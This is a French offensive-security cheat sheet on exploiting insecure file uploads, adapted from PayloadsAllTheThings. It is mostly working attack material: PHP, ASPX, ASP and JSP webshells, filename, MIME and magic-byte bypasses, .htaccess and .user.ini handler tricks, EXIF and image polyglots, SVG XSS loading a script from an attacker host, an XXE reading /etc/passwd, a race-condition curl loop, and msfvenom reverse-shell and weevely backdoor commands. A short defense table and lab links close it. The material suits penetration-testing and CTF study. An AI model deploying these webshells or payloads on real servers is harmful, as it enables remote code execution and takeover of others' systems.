

# 📤 Upload de Fichiers — exploitation

> [!info] **En 1 phrase**
> Un endpoint d'upload non sécurisé laisse un attaquant déposer un **fichier exécutable** (webshell)
> ou malveillant dans la webroot → **RCE** (exécution de code arbitraire), XSS, XXE ou prise de contrôle du serveur.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> L'app vérifie souvent **un seul critère** (extension, MIME ou magic bytes) alors que le serveur web
> en utilise un autre. On joue sur ce **décalage**. L'upload n'est dangereux que si le fichier est
> ensuite **interprété** (webshell) ou **réutilisé** (2nd order).

---

## 🗂️ Fichiers dangereux & extensions

Un webshell = fichier dont l'extension est reconnue par le serveur comme du **code à interpréter**.

```bash
# PHP — toutes les extensions interprétées
.php .php3 .php4 .php5 .php7
# Moins connues (souvent oubliées par les filtres !)
.pht .phps .phar .phpt .pgif .phtml .phtm .inc

# ASP / ASPX (IIS)
.asp .aspx .config
.cer .asa        # (IIS <= 7.5)
shell.aspx;1.jpg # (IIS < 7.0 — point-virgule tronqué)
shell.soap

# JSP        : .jsp .jspx .jsw .jsv .jspf .wss .do .actions
# Perl       : .pl .pm .cgi .lib
# Coldfusion : .cfm .cfml .cfc .dbm
# Node.js    : .js .json .node
# Python     : .py .pth (persistance via .pth, voir plus bas)
```

> [!warning] ⚠️ **Extensions non-code mais exploitables**
> | Extension | Impact |
> |---|---|
> | `.svg` | XXE, XSS, SSRF |
> | `.gif` / `.html` / `.js` | XSS, Open Redirect |
> | `.csv` | CSV Injection |
> | `.xml` | XXE |
> | `.avi` | LFI, SSRF (FFmpeg HLS) |
> | `.zip` | RCE, DOS, LFI (zip://) |

---

## 📍 Localiser le fichier uploadé

Sans accès direct, un webshell est inutile : il faut trouver le **chemin de stockage** et vérifier
que le fichier est **servi** par le serveur web.

```bash
# 1. La réponse d'upload renvoie le chemin ? → {"filename":"/uploads/avatar/shell.php"} → direct
# 2. Deviner depuis les URLs visibles :  → /images/avatars/
# 3. Brute-force des dossiers classiques
ffuf -u http://target/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
#    uploads/  images/  files/  attachments/  media/  avatar/  tmp/
# 4. Fichier renommé (timestamp/UUID) → bruteforce difficile, tester quand même shell.php
# 5. Plan B : inclure via un LFI existant → /index.php?page=uploads/shell.jpg
# 6. Confirmer l'exécution réelle
curl -s "http://target/uploads/backdoor.php?cmd=id"
```

> [!tip] 💡 **Nom de fichier = donnée critique** : s'il est conservé (`shell.php`) tout devient
> trivial ; s'il est renommé, on vise `.htaccess`/`.user.ini` (immuables) ou le 2nd order.

---

## 🕷️ Webshells — payloads

### PHP — toutes les variantes de balises

```php
<?php system($_GET['cmd']); ?>
<?php system($_REQUEST['cmd']); ?>
<?php echo shell_exec($_POST['cmd']); ?>
<?php passthru($_GET['cmd']); ?>
<?php eval($_POST['c']); ?>                 <!-- code PHP arbitraire -->
<?=`id`?>                                    <!-- court tag = <?php echo ... ?>, souvent OK -->
```

```html
<!-- Variante script tag (anciens PHP / short_open_tag) -->
<script language="php">system("id");</script>
```

> [!warning] ⚠️ **Sans AUCUNE balise PHP** : c'est possible via un fichier de config (`.htaccess`
> avec `AddHandler`, ou `.user.ini` avec `auto_prepend_file`) — voir section Bypass. Le serveur
> interprète alors tout le fichier, balise ou non.

### backdoor.php — contenu type

```php
<?php
if (isset($_REQUEST['cmd'])) { echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; }
?>
```

```php
<?php @eval($_POST['c']);?>   <!-- taille minimale, weaponisable via POST c=... -->
<?php system($_GET['cmd']);?> <!-- la plus courante en CTF -->
```

### ASP / ASPX / JSP / Python

```aspx
<%@ Page Language="C#" %>
<% System.Diagnostics.Process p = new System.Diagnostics.Process();
   p.StartInfo.FileName = "cmd.exe";
   p.StartInfo.Arguments = "/c " + Request["cmd"];
   p.StartInfo.UseShellExecute = false;
   p.StartInfo.RedirectStandardOutput = true;
   p.Start(); Response.Write("<pre>" + p.StandardOutput.ReadToEnd() + "</pre>"); %>
```

```asp
<%execute request("cmd")%>
```

```jsp
<% if(request.getParameter("cmd")!=null){
   java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
   int a; while((a=in.read())>=0){ out.print((char)a); } } %>
```

```py
import os
print(os.popen("id").read())
```

---

## 🚀 Bypass de validation

### 1. Extension — double extension & casse

```bash
# Double extension : shell.jpg.php / shell.png.php5 (l'app ne vérifie que le début ?)
# Reverse double extension : shell.php.jpg — Apache (FilesMatch) exécute TOUT ce qui contient .php
# Casse aléatoire (blacklist case-sensitive) : shell.pHp  shell.pHP5  shell.PhAr

# Caractères spéciaux en fin de nom
file.php......       # points finaux → supprimés sur Windows → redevient file.php
file.php%20          # espace / newline tronqués : file.php%0a  file.php%0d%0a.jpg
file.php/            # slash final → tronqué / transformé en dossier
file.jsp/././././
file.j\sp            # slash/backslash : certains parseurs coupent au dernier /
name.%E2%80%AEphp.jpg  # RTLO : affiché "name.gpj.php", réel ".jpg" → piège visuel
```

### 2. `.htaccess` (Apache) — le test PRIORITAIRE

```bash
# Contenu exact à uploader — mappe une extension custom vers le handler PHP :
AddType application/x-httpd-php .rce
# Résultat : http://target/uploads/shell.rce?cmd=id  → PHP exécuté (shell.rce = code ci-dessous)
```

```php
<?php system($_GET['cmd']); ?>
```

```bash
# Variante "tout fichier devient PHP" (même sans balise PHP dans le fichier) :
AddHandler application/x-httpd-php .jpg
# Variante multi-extensions (reverse double extension) :
SetHandler application/x-httpd-php
```

### 3. `.user.ini` (PHP-FPM/CGI) — remplace .htaccess

```bash
# Contenu exact à uploader — prepend un fichier inclus en tête de CHAQUE .php du dossier :
auto_prepend_file=shell.jpg
# Puis uploader "shell.jpg" = code PHP (cf. backdoor.php). RCE sans fichier .php uploadé.
# Nécessite PHP-FPM/CGI (inactif sur mod_php).
```

### 4. MIME type — falsification du Content-Type

```bash
# L'app ne regarde QUE le header HTTP ? → on ment (1 clic dans Burp) :
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/png              # ← falsifié

# Content-Types PHP que certains serveurs/apps acceptent :
text/php   text/x-php   application/php   application/x-php
application/x-httpd-php   application/x-httpd-php-source

# Double Content-Type (parsers confus) :
Content-Type: image/png
Content-Type: application/x-httpd-php
```

### 5. Magic bytes — en-tête du fichier

```bash
# L'app lit la signature ? On la préfixe au code PHP :
printf 'GIF89a<?php system($_GET["cmd"]); ?>' > shell.gif.php

# Signatures classiques
PNG : \x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR...
JPG : \xff\xd8\xff\xe0
GIF : GIF87a  OU  GIF89a
```

### 6. Contenu — polyglot & texte avec code

```bash
# Fichier TEXTE avec du code PHP : passe les filtres qui ne lisent que les premiers octets.
# Exploitable si l'exécution dépend de l'extension et la validation des magic bytes seulement.
# Les vrais polyglots image+PHP (résistent à getimagesize et au resize) : section dédiée.
```

### 7. Filename — null byte, path traversal, encodage

```bash
# Null byte (vieux PHP < 5.3.4, pathinfo()) : la chaîne est tronquée à \0
shell.php%00.png     shell.php\x00.png     shell.php%00.jpg

# Windows : include/require/fopen/move_uploaded_file ignorent la fin après certains caractères
foo.php.        foo.php%20        foo.php%20%20%20   → traités comme foo.php
foo.php:jpg     # ADS NTFS : file.asp::$data. crée un fichier non vide valide

# Path traversal dans le NOM → écrire hors du dossier d'upload
../../../tmp/lol.png
image.png../../../../../../../etc/passwd
../../../../var/www/html/shell.php

# Encodage UTF-8 du nom (filtres sur le nom) : filename*=UTF8''myfile%0a.txt
# Remap Windows/IIS (web<< → web**) : >→?  <→*  "→. (header en single quotes : filename='web"config')
```

---

## 🧩 Polyglots — image valide contenant du PHP

> [!tip] 💡 **Principe** : le fichier reste une **vraie image** (passe `getimagesize()`, resize)
> mais le PHP est caché dans les **métadonnées** (EXIF) ou les **données brutes**. Exploitation via
> **LFI** (`include`) : le parseur PHP interprète le code jusqu'à la fin du fichier.

```bash
# Méthode 1 — EXIF (exiftool) : commentaire = code PHP, puis déclenchement via LFI
convert -size 110x110 xc:white payload.jpg
exiftool -Comment="<?php echo 'Cmd:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" payload.jpg
curl 'http://localhost/index.php?page=uploads/payload.jpg' --data "cmd=id"
```

```bash
# Méthode 2 — collage brut JPEG + PHP (passe les filtres qui ne lisent que le début)
printf '\xff\xd8\xff\xe0<?php system($_GET["cmd"]); ?>' > poly.jpg
```

```bash
# Méthode 3 — PNG/GIF + PHP dans les données : résiste à getimagesize() ET imagecreatefrom*()
#   createPNGwithPLTE.php            (blog.isec.pl — injection points in image formats)
#   createGIFwithGlobalColorTable.php
php createPNGwithPLTE.php   # → shell.png, code injecté dans la PLTE (non compressée)

# Méthode 4 — JPG "bulletproof" qui survit même au RESIZE (virtualabs.fr) :
python3 createBulletproofJPG.py -o shell.jpg -p "<?php system(\$_GET['cmd']); ?>"
```

> [!warning] ⚠️ **Resize** : si l'app redimensionne, le code en métadonnées est **perdu** → le mettre
> dans les **données pixel compressées** (méthodes 3/4), qui survivent à `imagecreatefrom*()`.

---

## 🖼️ SVG → XSS (et XML)

Le SVG = du XML servi comme image : un script JS s'exécute à l'ouverture, et le XML permet l'**XXE**
si l'app parse le fichier serveur-side.

```xml
<!-- XSS #1 (onload) -->
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>

<!-- XSS #2 (script) -->
<svg xmlns="http://www.w3.org/2000/svg"><script>alert(document.domain)</script></svg>

<!-- XSS #3 (script externe) -->
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <script xlink:href="https://attacker/evil.js"/>
</svg>

<!-- XXE serveur-side (ImageMagick, DOM) -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<svg xmlns="http://www.w3.org/2000/svg"><text>&xxe;</text></svg>
```

> [!tip] 💡 Un `.gif`/`.html` avec `<script>` sert directement déclenche aussi un **XSS** si l'app
> n'envoie pas `Content-Disposition: attachment` ni CSP.

---

## 🏁 Race conditions (upload TOCTOU)

> Non couvert par PayloadsAllTheThings, mais classique en réel : l'app **déplace/vérifie** le
> fichier après l'avoir stocké, ou le nettoyage (AV, ré-encodage) tourne **en asynchrone**.

```bash
# On écrit le fichier ET on le requête avant la vérification/le nettoyage :
for i in $(seq 1 500); do curl -s -F "file=@shell.php" http://target/upload & done
for i in $(seq 1 500); do curl -s "http://target/uploads/shell.php?cmd=id" & done
wait
```

> [!warning] ⚠️ Exige un **accès direct** au fichier pendant la fenêtre de vulnérabilité. Échec si
> la vérification est **synchrone** (avant écriture).

---

## 🛠️ Outils

```bash
# Burp — extension "Upload Scanner" (BApp Store) : scanne les formulaires multipart, teste les bypass.
#        Interception : modifier Content-Type / filename / magic bytes / corps du fichier.

# weevely — gestion de webshells PHP (client + payload)
weevely generate secret123 backdoor.php                              # génère un webshell stealth
weevely http://target/uploads/backdoor.php secret123 "ls -la"        # console interactive
weevely http://target/uploads/backdoor.php secret123 :audit          # post-exploit auto

# Metasploit — payloads webshell (écouter avec multi/handler)
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=4444 -o shell.php
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f aspx -o shell.aspx
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4444 -f raw -o shell.jsp

# exiftool — injecter du PHP dans les métadonnées
exiftool -Comment='<?php system($_GET["cmd"]); ?>' img.jpg
exiftool -DocumentName='<?php passthru($_POST["c"]);?>' img.jpg
exiftool -all= img.jpg     # nettoie les tags (OPSEC)

# Scan/exploit auto (PATT) : fuxploider (github.com/almandin/fuxploider),
#                            ZAP FileUpload add-on
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Whitelist d'extensions** | N'accepter QUE `.jpg/.png/.gif/.pdf` — jamais de blacklist (impossible à tenir) |
| **Renommage serveur** | Nom aléatoire (UUID) + extension imposée → tue `.htaccess`/`.user.ini`/2nd order |
| **Magic bytes + vrai parse** | `getimagesize()` + ré-encodage GD/Imagick, ne jamais se fier au Content-Type |
| **Dossier non exécutable** | Uploads hors webroot OU `php_flag engine off` / `RemoveHandler` dans le dossier |
| **Headers de réponse** | `Content-Disposition: attachment`, `X-Content-Type-Options: nosniff`, CSP → bloque SVG/HTML XSS |
| **Antivirus** | Scan de chaque upload (ClamAV...) — contournable, mais ralentit l'attaquant |
| **Stockage hors webroot** | Le fichier n'est jamais servi ; on renvoie un flux retraité |
| **Limites & logs** | Taille max, quota, rate-limit, logs des uploads (attribution) |
| **Surveillance** | Alerte sur fichiers `.php/.aspx` créés dans les dossiers d'upload, exécutions inattendues |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Ordre logique d'attaque**
> 1. Repérer un formulaire multipart (avatar, pièce jointe, import...) → 2. Upload propre (chemin ? accès direct ?) → 3. Extensions → 4. MIME → 5. Magic bytes → 6. Polyglot → 7. `.htaccess`/`.user.ini` → 8. RCE confirmé = gestion via weevely ou LFI.

> [!warning] ⚠️ **Pièges fréquents**
> - La **vérification du MIME ne suffit JAMAIS** : elle se falsifie en 1 clic (Burp).
> - **`.htaccess` en premier sur Apache** : si l'upload le permet, tous les autres bypass sont inutiles.
>   Vérifier aussi s'il existe déjà (écrasé via path traversal ?).
> - **Le déplacement de fichier** : `move_uploaded_file()` Windows tronque `foo.php.`/`foo.php%20` →
>   le nom validé (inoffensif) devient exécutable après déplacement. Tester ces variantes.
> - **Double extension vs multi-contexte Apache** : `AddType`/`FilesMatch` (`\.ph(p[0-9]?|tml)$`) ≠
>   multi-contexte. `.php.jpg` marche avec certains `AddHandler`/`SetHandler`, pas avec tous.
> - Le **webshell n'est utile que s'il est accessible ET exécuté** : sans chemin ni exécution, c'est
>   un fichier mort. Vérifier l'accès direct et l'exécution réelle.
> - **Blacklist = toujours contournable** (`.phtml`, `.phar`, `.phpt`, `.pht`...).
> - **2nd order** : même un fichier "inoffensif" (nom ou contenu relu par CSV/XML/PDF) devient une arme.

---

## 🧪 Labs

- PortSwigger — File upload vulnerabilities : https://portswigger.net/web-security/all-labs#file-upload-vulnerabilities
- Root-Me — Double extensions : https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions
- Root-Me — MIME type : https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type
- Root-Me — Null byte : https://www.root-me.org/en/Challenges/Web-Server/File-upload-Null-byte
- Root-Me — ZIP : https://www.root-me.org/en/Challenges/Web-Server/File-upload-ZIP
- Root-Me — Polyglot : https://www.root-me.org/en/Challenges/Web-Server/File-upload-Polyglot

---

## 🔗 Liens

- [[Injection de commandes|🐚 Injection de commandes]]
- [[LFI et RFI|📂 LFI / RFI]]
- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md)
